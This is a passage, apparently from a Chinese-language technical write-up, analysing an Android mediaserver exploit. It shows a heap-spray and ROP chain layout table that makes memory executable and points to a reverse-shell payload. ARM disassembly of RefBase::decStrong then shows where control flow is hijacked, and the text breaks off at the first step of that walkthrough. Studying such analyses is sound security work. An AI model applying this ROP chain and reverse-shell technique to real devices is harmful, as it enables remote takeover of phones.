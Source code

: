 | 0x30 | 0xf0f00000+x1 |
| … | … |
| 0x4C, ROP+0x0 | sp_addr + 0x40 |
| ROP+0x4 | 0xb0002a98{} |
| ROP+0x8 | 0xb00038b2 + 1{} |
| ROP+0xC | sp_addr & 0xFFFFF000 |
| ROP+0x10 | 0x1000 |
| ROP+0x14 | 7 |
| ROP+0x18 | 0xd000d003 |
| ROP+0x1C | 0xd000d004 |
| ROP+0x20 | 0xb001144{} |
| ROP+0x24 | sp_addr + 0x80 |
| ROP+0x28 | 0xf0f00000 + x1 |
| … | … … |
| ROP+0x4C | payload/shell_reverse_tcp |
| … | … |
| 0x1000 | 0xf0f00000 + xn |

从exploit看，mediaserver crash时代码走到了`android::RefBase::decStrong(android::RefBase *__hidden this, const void *)`，汇编代码如下：

```
.text:0000EE34 70 B5         PUSH  {R4-R6,LR}
.text:0000EE36 05 46         MOV   R5, R0
.text:0000EE38 44 68         LDR   R4, [R0,#4]
.text:0000EE3A 0E 46         MOV   R6, R1
.text:0000EE3C 20 46         MOV   R0, R4
.text:0000EE3E FD F7 54 EB   BLX   android_atomic_dec
.text:0000EE42 01 28         CMP   R0, #1
.text:0000EE44 0B D1         BNE   loc_EE5E
.text:0000EE46 A0 68         LDR   R0, [R4,#8]
.text:0000EE48 01 68         LDR   R1, [R0]
.text:0000EE4A CA 68         LDR   R2, [R1,#0xC]
.text:0000EE4C 31 46         MOV   R1, R6
.text:0000EE4E 90 47         BLX   R2

```

按这段代码的执行流程如下：

**1）r0 = spray_address = sa**

